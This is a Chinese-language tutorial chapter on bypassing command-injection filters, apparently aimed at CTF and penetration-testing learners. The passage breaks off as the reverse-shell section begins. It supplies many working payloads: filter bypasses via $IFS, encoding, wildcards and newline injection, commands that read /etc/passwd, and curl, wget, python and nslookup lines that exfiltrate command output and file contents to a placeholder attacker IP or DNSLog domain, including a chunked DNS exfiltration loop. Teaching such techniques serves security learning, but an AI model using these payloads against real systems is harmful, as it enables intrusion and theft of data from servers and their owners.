







# 第27章 命令执行绕过与利用

> **难度等级：🟡 中等级 → 🟠 高等级**
>
> **预计学习时间：150分钟**
>
> **本章看点：空格绕过、关键字绕过、命令拼接技巧、无回显利用、DNSLog外带、反弹Shell大全、写Shell姿势、绕过disable_functions、绕过open_basedir、各语言命令执行**
>
> ::: tip 说明
> 上一章我们学习了命令执行的基础，
> 知道了什么是命令执行、
> 有哪些危险函数、
> 以及最基础的利用方式。
>
> 但是！
> 真实环境哪有这么简单？
> 大部分系统都会做各种过滤，
> 比如过滤空格、
> 过滤关键字、
> 过滤特殊符号、
> 禁用危险函数...
>
> 这一章，
> 我们就来学习各种绕过技巧，
> 以及更高级的利用方法。
> 从空格绕过去关键字绕过，
> 从无回显利用到DNSLog外带，
> 从反弹Shell到绕过disable_functions，
> 应有尽有。
>
> 准备好了吗？
> 让我们开始升级打怪！
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手学完命令执行基础后，
觉得"不就是拼接个命令嘛"，
结果一到实战就懵了：
"怎么回事？怎么不执行？"

因为真实环境中，
开发者也不是傻子，
多多少少都会做一些过滤。
但是过滤做得不严谨，
就有绕过的可能。

命令执行的绕过技巧非常多，
而且非常灵活，
需要你对Linux/Windows命令
有比较深入的了解。

这一章我们会讲：
- 空格绕过的N种方法
- 关键字绕过的各种姿势
- 命令拼接技巧
- 无回显命令执行怎么办
- DNSLog在命令执行中的应用
- 反弹Shell的10种姿势
- 写Shell的各种方法
- 绕过disable_functions
- 绕过open_basedir
- 各语言的命令执行（Python/Java/Node.js）

内容很多，
也很重要，
建议大家边学边练。
:::

---

## 💡 绕过核心原理：为什么过滤总是能绕过去？

在开始学具体绕过方法之前，先把绕过的**底层逻辑**搞清楚。
理解了"为什么"，每个具体的绕过方法就变得很自然了。

### 绕过的三种基本思路

**思路一：换个方式做同样的事（等价替换）**

就像你去超市买东西，"可口可乐"8块钱。
如果超市规定不准卖"可口可乐"，聪明的店员可能卖你"Coca-Cola"——
东西一样，名字不同，规则就失效了。

应用到命令执行：
- 过滤器禁止了 `cat` → 我们用 `more`、`less`、`head`、`tac`... 效果一样
- 过滤器禁止了空格 → 我们用 `$IFS`、`<>`、`{cmd,args}`... 效果一样
- 过滤器禁止了 `whoami` → 我们用 `who""ami`、`who$a$sami`... 效果一样

**思路二：打破过滤器的"认知"（解析差异）**

门卫有一张"不许带武器"的规定，但他只知道刀是武器。
你带了一根棒球棍——也是武器，但他不认识。
这就是黑名单永远列不全的根本原因。

应用到命令执行：
- 过滤器看到 `;` 就拦 → 我们用 `%0a`（换行符），过滤器的规则没覆盖
- 过滤器看到 `cat` 就拦 → 我们用 `c\at`（转义），字符串匹配失效
- 过滤器看到 `php` 就拦 → 我们写 `shell.pHp`，大小写不匹配

**思路三：借用外部渠道（间接执行）**

本地直接执行被拦了？那我不直接执行，通过别的方式执行。
- 不能直接 `cat /flag` → 把flag内容通过DNS请求发到我的服务器（DNSLog）
- 不能通过HTTP传结果 → 让服务器主动连接到我的机器（反弹Shell）
- `eval()` 被禁了 → 用 `call_user_func()`、`create_function()` 等其他函数

### 一句话总结

> **所有绕过，本质上都是：**
> **"让过滤器认为是安全的，让执行程序认为是命令。"**
>
> 这和我们之前文件上传绕过的核心原理一模一样——
> 验证逻辑和实际执行逻辑之间的差异，就是绕过的空间。

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 掌握空格绕过的多种方法
- [x] 掌握关键字绕过的各种技巧
- [x] 理解并能使用命令拼接技巧
- [x] 知道无回显命令执行怎么利用
- [x] 会使用DNSLog外带数据
- [x] 掌握至少5种反弹Shell的方法
- [x] 会用多种方式写Shell
- [x] 了解绕过disable_functions的方法
- [x] 了解绕过open_basedir的方法
- [x] 知道Python/Java/Node.js中的命令执行

---

## 🚀 命令执行绕过空格

**图27-1 命令执行绕过思路全景图**



第一个要讲的就是空格绕过。
很多过滤会把空格给禁掉，
那没有空格怎么执行命令呢？
别担心，
方法多着呢！

### 1.1 用制表符代替空格

在Linux中，
制表符（Tab，也就是 `\t`，URL编码是 `%09`）
也可以当作命令和参数之间的分隔符。

```bash
# 正常命令
cat /etc/passwd

# 用Tab代替空格
cat%09/etc/passwd
```

在URL中，
你可以用 `%09` 来表示Tab。

### 1.2 用 ${IFS} 代替空格

`$IFS` 是Linux的内部字段分隔符（Internal Field Separator），
默认值是空格、Tab、换行符。

所以 `${IFS}` 可以代替空格：

```bash
# 用${IFS}代替空格
cat${IFS}/etc/passwd

# 也可以用$IFS
cat$IFS/etc/passwd
```

::: tip 小技巧
有时候直接用 `$IFS` 会有问题，
因为后面的字符可能会被当作变量名的一部分。
这时候可以用 `${IFS}` 或者 `$IFS$9`。

为什么是 `$9`？
因为 `$9` 是第9个位置参数，
通常是空的，
所以 `$IFS$9` 就等于 `$IFS` + 空，
也就是空格。
:::

```bash
# 更稳妥的写法
cat$IFS$9/etc/passwd
ls$IFS$9-la
```

### 1.3 用重定向符代替空格

在某些情况下，
可以用 `<` 或 `>` 来代替空格：

```bash
# 用<代替空格（读取文件）
cat</etc/passwd

# 这其实是输入重定向
# cat 从 /etc/passwd 读取内容
```

### 1.4 用花括号扩展

Bash的花括号扩展也可以用来执行命令，
而且不需要空格：

```bash
# 花括号扩展
{cat,/etc/passwd}

# 注意：逗号前后不能有空格
# 这个会被展开成：cat /etc/passwd
```

### 1.5 用 %20 空格的URL编码

这个严格来说不算"绕过"，
但有时候过滤的是空格字符本身，
而不是URL解码后的空格。

```
# URL编码的空格
cat%20/etc/passwd
```

### 1.6 Windows下的空格绕过

Windows下也有类似的方法：

```cmd
:: 用^转义？不对，^是续行符
:: Windows下可以用一些特殊符号

:: 用,代替空格
ping,127.0.0.1

:: 用;代替空格
ping;127.0.0.1

:: 用=代替空格
ping=127.0.0.1
```

Windows cmd中，
逗号 `,`、分号 `;`、等号 `=` 都可以当作命令分隔符/空格来用。

### 1.7 空格绕过方法汇总表

| 方法 | Linux | Windows | 示例 |
|------|-------|---------|------|
| 制表符 `%09` | ✅ | ✅ | `cat%09/etc/passwd` |
| `${IFS}` | ✅ | ❌ | `cat${IFS}/etc/passwd` |
| `$IFS$9` | ✅ | ❌ | `cat$IFS$9/etc/passwd` |
| 输入重定向 `<` | ✅ | ❌ | `cat</etc/passwd` |
| 花括号 `{}` | ✅ | ❌ | `{cat,/etc/passwd}` |
| URL编码 `%20` | ✅ | ✅ | `cat%20/etc/passwd` |
| 逗号 `,` | ❌ | ✅ | `ping,127.0.0.1` |
| 分号 `;` | 命令分隔符 | 空格替代 | `ping;127.0.0.1` |
| 等号 `=` | ❌ | ✅ | `ping=127.0.0.1` |

**图27-2 空格绕过方法分类图**



---

## 🔑 命令执行绕过关键字

除了过滤空格，
更常见的是过滤关键字，
比如过滤 `cat`、`ls`、`whoami`、`system` 等。
这时候怎么办呢？
方法也很多！

### 2.1 拼接法

最简单的方法就是把关键字拆开，
然后再拼起来。

```bash
# 拼接cat命令
a=c;b=at;$a$b /etc/passwd

# 拼接whoami
a=who;b=ami;$a$b

# 拼接system（PHP代码执行中）
$a = 'sys'.'tem';
$a('whoami');
```

原理很简单：
变量拼接后再执行，
就绕过了对关键字的直接检测。

### 2.2 字符串反转

把命令反过来写，
然后再反转回来执行。

```bash
# 用rev命令反转
echo ' tac /etc/passwd' | rev | bash

# 解释：
# 'tac /etc/passwd' 反转后是 'dwssap/cte/ cat'
# 不对，应该是：
echo 'cat /etc/passwd' | rev
# 输出：dwssap/cte/ tac
# 然后再反转回来就是原命令
echo 'dwssap/cte/ tac' | rev | bash
```

或者用bash变量反转：
```bash
# 定义变量然后反转
cmd='dwssap/cte/ tac'; ${cmd: : -1} | rev | bash
```

### 2.3 编码绕过

用各种编码方式编码命令，
然后解码执行。

#### Base64编码
```bash
# 编码
echo 'cat /etc/passwd' | base64
# 输出：Y2F0IC9ldGMvcGFzc3dkCg==

# 解码执行
echo 'Y2F0IC9ldGMvcGFzc3dkCg==' | base64 -d | bash
```

#### Hex编码
```bash
# 用xxd转hex再执行
echo '636174202f6574632f706173737764' | xxd -r -p | bash
```

#### ASCII码
```bash
# 用printf把ASCII码转成字符再执行
printf '\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64' | bash
```

### 2.4 通配符绕过

用通配符 `*` 和 `?` 来匹配文件名或命令名。

```bash
# 用通配符匹配cat命令
/???/cat /etc/passwd
# /bin/cat → /???/cat

# 用通配符匹配文件名
cat /etc/passw?
cat /etc/p*wd

# 更极端的
/???/?at /???/p?????
```

::: tip 原理
在Linux中，
shell会先展开通配符，
然后再执行命令。
所以只要通配符能匹配到目标，
就能执行。
:::

### 2.5 利用已有字符串

从环境变量或已有文件中"扣"出字符来拼接命令。

```bash
# 从PATH变量中提取字符
# PATH通常是 /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
echo $PATH
# 可以从中提取各种字符

# 从/proc/version中提取
cat /proc/version

# 从env中提取
env
```

这个比较高级，
CTF中偶尔会遇到。

### 2.6 自增变量

PHP代码执行中常用的技巧，
用自增变量得到字母：

```php
<?php
// 用自增得到字母
$_ = " ";
$_++; // "!"
$_++; // ... 一直自增下去
// 最终可以得到所有字母

// 简化版
$_ = '!';
$_++;
$_++;
// ... 一直加下去
```

这个技巧在CTF中很常见，
当过滤了所有字母的时候用。

### 2.7 数组绕过（PHP）

在PHP中，
如果用 `in_array` 检查函数名，
可以用数组来绕过：

```php
<?php
// 正常调用
call_user_func('system', 'whoami');

// 如果检查in_array($func, $blacklist)
// 可以用数组
call_user_func($_REQUEST['func'][0], $_REQUEST['func'][1]);
// ?func[0]=system&func[1]=whoami
```

因为 `in_array` 检查的是字符串，
而传数组可能会绕过检查。

### 2.8 关键字绕过汇总表

| 方法 | 原理 | 示例 |
|------|------|------|
| 变量拼接 | 拆分关键字再拼接 | `a=c;b=at;$a$b file` |
| 字符串反转 | 反转后再反转 | `echo 'tac' \| rev \| bash` |
| Base64编码 | 编码后解码执行 | `echo 'base64' \| base64 -d \| bash` |
| Hex编码 | hex转字符串执行 | `echo 'hex' \| xxd -r -p \| bash` |
| 通配符 | `*` `?` 匹配 | `/???/cat /???/p?????` |
| 已有字符串提取 | 从环境变量等提取 | 高级技巧 |
| 自增变量 | PHP字符自增 | CTF技巧 |
| 数组绕过 | 绕过in_array等检查 | PHP特定场景 |

**图27-3 关键字绕过技巧分类图**



---

## 🔗 命令拼接技巧

我们上一章讲了基本的命令连接符（;、&&、||、|），
这一节我们来讲讲更多的命令拼接和绕过技巧。

### 3.1 换行符绕过

如果过滤了 `;`、`&&`、`||`、`|` 这些符号，
可以试试用换行符 `%0a`：

```bash
# 用换行符分隔命令
127.0.0.1%0awhoami
# 相当于：
# 127.0.0.1
# whoami
```

URL中 `%0a` 就是换行符，
在bash中，
换行符也是命令分隔符。

### 3.2 反引号和$()

反引号 `` ` `` 和 `$()` 是命令替换，
也可以用来执行命令：

```bash
# 反引号
echo `whoami`

# $()
echo $(whoami)
```

命令替换的好处是，
它可以嵌套在其他命令中，
而且不需要命令连接符。

### 3.3 子shell执行

用 `()` 或 `{}` 包裹多个命令：

```bash
# 子shell执行
(ls; whoami; pwd)

# 命令组合
{ ls; whoami; pwd; }
# 注意：{ 后面要有空格，; 前面要有空格
```

### 3.4 逻辑运算妙用

`&&` 和 `||` 不仅可以连接命令，
还可以用来做判断，
在某些场景下很有用。

```bash
# 如果前面命令成功，执行后面的
ping -c 1 127.0.0.1 && whoami

# 如果前面命令失败，执行后面的
ping -c 1 notexist || whoami

# 组合使用
cmd1 && cmd2 || cmd3
# cmd1成功执行cmd2，失败执行cmd3
```

### 3.5 管道符的高级用法

管道符 `|` 不止能把输出传给下一个命令，
还能用来执行命令：

```bash
# 把echo的输出传给bash执行
echo 'whoami' | bash

# 把base64解码后传给bash
echo 'Y2F0IC9ldGMvcGFzc3dkCg==' | base64 -d | bash
```

这在写Shell或者绕过的时候很有用。

### 3.6 绕过命令分隔符过滤的方法汇总

| 方法 | 说明 | 示例 |
|------|------|------|
| 换行符 `%0a` | 用换行分隔命令 | `127.0.0.1%0awhoami` |
| 回车符 `%0d` | 类似换行，Windows常用 | `127.0.0.1%0dwhoami` |
| 反引号 `` ` `` | 命令替换 | `` echo `whoami` `` |
| `$()` | 命令替换 | `echo $(whoami)` |
| 子shell `()` | 在子shell中执行 | `(ls; whoami)` |
| 命令组合 `{}` | 组合多个命令 | `{ ls; whoami; }` |
| 管道符 `\|` | 传给下一个命令执行 | `echo whoami \| bash` |

---

## 👁️ 无回显命令执行怎么办？

有时候命令执行了，
但是页面上不显示结果，
这就是"无回显命令执行"（也叫盲注）。
这时候怎么办呢？
别担心，
方法也很多！

### 4.1 什么是无回显？

无回显就是：
- 命令确实执行了
- 但是执行结果不显示在页面上
- 甚至连成功失败都不知道

比如：
```php
<?php
// 执行命令，但不输出结果
$ip = $_GET['ip'];
system("ping -c 4 " . $ip . " > /dev/null 2>&1");
?>
```
这个就是无回显的，
因为所有输出都重定向到 `/dev/null` 了。

### 4.2 方法1：时间延迟（Sleep盲注）

和SQL注入的时间盲注类似，
我们可以用 `sleep` 命令来判断命令是否执行：

```bash
# 如果命令执行成功，sleep 5秒
ping -c 1 127.0.0.1 && sleep 5

# 根据页面响应时间判断
# 如果延迟了5秒，说明命令执行了
```

**更精确的判断：**
```bash
# 用if判断文件是否存在，存在就sleep
if [ -f /etc/passwd ]; then sleep 5; fi

# 用wc判断文件行数，第N行就sleep N秒
sleep `wc -l /etc/passwd | cut -d' ' -f1`
```

优点：简单，不需要额外工具
缺点：慢，只能一位一位地猜数据

### 4.3 方法2：HTTP外带（把数据发出来）

如果目标能出网，
我们可以让目标把数据通过HTTP请求发给我们。

#### 用curl发送：
```bash
# 把命令结果作为参数发送
curl http://攻击者IP:8080/?data=$(whoami)

# 把文件内容发送出去
curl http://攻击者IP:8080/?data=$(cat /etc/passwd | base64)
```

#### 用wget发送：
```bash
wget http://攻击者IP:8080/$(whoami)
```

#### 用python发送：
```bash
python -c "import urllib; urllib.urlopen('http://攻击者IP:8080/?data='+__import__('os').popen('whoami').read())"
```

你需要在自己的服务器上
用nc或者python起一个HTTP服务来接收数据：
```bash
# 用python起一个简单的HTTP服务
python3 -m http.server 8080

# 用nc监听
nc -lvvp 8080
```

### 4.4 方法3：DNS外带（DNSLog）

这个非常重要！
因为很多时候目标不能直接出网（HTTP被拦了），
但是DNS请求通常是允许的。

**原理：**
把要外带的数据编码后，
作为子域名去查询DNS，
我们的DNS服务器就能收到查询记录，
从而得到数据。

```bash
# 把whoami的结果作为子域名
nslookup $(whoami).你的域名.com

# 或者用ping
ping -c 1 $(whoami).你的域名.com
```

**实际例子：**
```bash
# 假设whoami的结果是 www-data
nslookup www-data.abc.dnslog.cn

# 你的DNSLog平台就能看到查询记录
# 从而知道结果是 www-data
```

#### DNSLog常用平台：
- http://www.dnslog.cn/ （国内，推荐）
- https://dnslog.io/
- https://ceye.io/
- 或者自己搭建DNS服务器

#### DNSLog的限制：
- 域名长度有限制（子域名不能太长）
- 不能有特殊字符
- 数据量大的时候需要分段

#### 解决方法：
```bash
# 1. base64编码（避免特殊字符）
nslookup $(cat /etc/passwd | base64 | head -c 30).你的域名.com

# 2. 分段发送（数据量大的时候）
# 每次发一部分，用序号标记
```

DNSLog是无回显利用的神器，
一定要掌握！

### 4.5 方法4：写文件，然后访问

如果目标是Web服务器，
我们可以把结果写到Web目录下，
然后通过浏览器访问。

```bash
# 把结果写到Web目录
whoami > /var/www/html/result.txt

# 然后访问
http://目标IP/result.txt
```

如果不知道Web目录怎么办？
可以猜常见路径：
- `/var/www/html/`
- `/usr/local/apache/htdocs/`
- `C:\inetpub\wwwroot\`
- ...

或者找phpinfo看路径，
或者看进程、看配置文件。

### 4.6 无回显利用方法对比

| 方法 | 适用场景 | 优点 | 缺点 |
|------|----------|------|------|
| **Sleep盲注** | 完全不出网 | 简单，不需要额外工具 | 慢，效率低 |
| **HTTP外带** | 能出网，HTTP允许 | 速度快，数据量大 | 需要HTTP出网 |
| **DNS外带** | 能出网，DNS允许 | 大部分环境都能用 | 数据量有限制，需要编码 |
| **写文件** | 是Web服务器，知道Web路径 | 直接，方便 | 需要知道Web路径，有写入权限 |

::: tip 实战建议
实际测试时，
建议按这个顺序试：
1. 先看有没有回显（最方便）
2. 没有回显试试DNSLog（大部分情况能用）
3. DNS不行试试HTTP外带
4. 都不行再考虑Sleep盲注
5. 如果是Web机器，试试写文件
:::

**图27-4 无回显命令执行利用方法决策图**



---

## 🌐 DNSLog在命令执行中的应用

上一节提到了DNSLog，
这一节我们专门来讲讲，
因为它太重要了。

### 5.1 DNSLog原理

DNSLog的原理其实很简单：

1. 你有一个域名，比如 `test.com`
2. 你把这个域名的NS服务器指向你自己的服务器
3. 当有人查询 `xxx.test.com` 时，
   DNS请求会发到你的服务器上
4. 你记录下这个子域名，就知道xxx是什么了

所以，
攻击者可以把要外带的数据
放在子域名里，
然后发起DNS查询，
这样数据就"带"出来了。

**图27-5 DNSLog外带数据原理流程图**



### 5.2 DNSLog平台使用

不用自己搭DNS服务器，
有很多现成的DNSLog平台可以用。

以 dnslog.cn 为例：

1. 打开 http://www.dnslog.cn/
2. 点击"Get SubDomain" 获取一个子域名
3. 比如你得到了 `abc.dnslog.cn`
4. 在目标上执行：`ping test.abc.dnslog.cn`
5. 点击"Refresh Record" 刷新记录
6. 你就能看到 `test.abc.dnslog.cn` 的查询记录

是不是很简单？

### 5.3 DNSLog外带数据的方法

#### 1. Ping命令（最简单）
```bash
# 直接ping，数据放在子域名
ping -c 1 $(whoami).abc.dnslog.cn
```

#### 2. Nslookup命令（更可靠）
```bash
# 用nslookup查询
nslookup $(whoami).abc.dnslog.cn
```

#### 3. Dig命令（Linux常用）
```bash
dig $(whoami).abc.dnslog.cn
```

#### 4. 用curl也可以
```bash
curl http://$(whoami).abc.dnslog.cn
```
（虽然是HTTP请求，但也会先做DNS解析）

### 5.4 DNSLog的编码问题

DNS子域名有一些限制：
- 只能有字母、数字、连字符 `-`
- 不能有点 `.`（点是域名分隔符）
- 长度有限制（每段最多63字符，总长度不超过253）

所以外带数据的时候，
经常需要编码。

#### Base64编码：
```bash
# base64编码后再外带
# 注意base64里的 + / = 需要处理
cat /etc/passwd | base64 | tr '/+' '_-' | tr -d '=' | head -c 50
```

#### Hex编码：
```bash
# hex编码，只有字母数字，更安全
cat /etc/passwd | xxd -p | head -c 50
```

### 5.5 大数据量外带

如果数据量比较大，
一次带不完，
可以分多次发送：

```bash
# 用循环分段发送（简单示例）
data=$(cat /etc/passwd | base64)
len=${#data}
for i in $(seq 0 50 $len); do
    part=${data:$i:50}
    ping -c 1 $i.$part.abc.dnslog.cn
    sleep 0.1
done
```

实际环境中可以写更复杂的脚本，
不过原理都是一样的：
分段 + 编号 + 最后拼接。

### 5.6 DNSLog的其他用途

DNSLog不仅可以用在命令执行中，
很多地方都能用：

- SQL注入盲注（带出库名、表名等）
- XSS盲打（带外Cookie等）
- SSRF（探测内网）
- 无回显的XXE
- ...

可以说，
只要能发起DNS请求的地方，
都能用DNSLog来外带数据。

---

## 🔄 反弹Shell的各种姿势（10种方法）

有了命令执行，
下一步通常就是反弹Shell，
获得一个交互式的命令行。
为什么要反弹Shell？
因为：
1. 命令执行的功能有限，不方便交互
2. 很多操作需要交互式环境
3. 反弹Shell后才能进一步提权、内网渗透

下面我们来学习10种反弹Shell的方法。

### 6.1 前置知识

**什么是反弹Shell？**
> 目标机器主动连接你的机器，
> 你在自己的机器上获得目标的命令行。

**为什么叫"反弹"？**
> 正常是你连别人（正向连接），
> 现在是别人连你，
> 所以叫"反弹"。

**为什么要反弹？**
> 1. 目标在内网，你连不进去
> 2. 目标有防火墙，入站被拦了，出站可能没拦
> 3. 目标IP不固定，你的IP固定

**基本步骤：**
1. 在你的机器上开启监听：`nc -lvvp 4444`
2. 在目标机器上执行反弹命令
3. 你的机器上就收到Shell了

**图27-6 反弹Shell原理与方法汇总图**



---

### 6.2 方法1：Bash反弹（最常用）

```bash
